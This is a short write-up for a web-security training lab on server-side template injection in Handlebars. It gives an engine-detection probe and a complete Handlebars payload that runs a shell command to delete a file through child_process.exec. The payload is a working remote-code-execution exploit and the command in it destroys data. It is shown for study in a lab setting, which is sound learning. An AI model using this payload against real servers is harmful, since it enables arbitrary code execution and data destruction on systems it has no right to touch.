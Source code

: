 Title: erver-side template injection in an unknown language with a documented exploit
Level: PRACTITIONER
Desc: This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

# Walkthrough:

a) Try to get first product, you'd see message parameter in URL, which you can control
b) TRY TO INJECT THIS: ${{<%[%'"}}%\, into the message parameter. In error message you will see, that site is using Handlebars.
b) search and find exploit as below

Modify this exploit so that it calls require("child_process").exec("rm /home/carlos/morale.txt") as follows:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
URL encode and add this to message param.

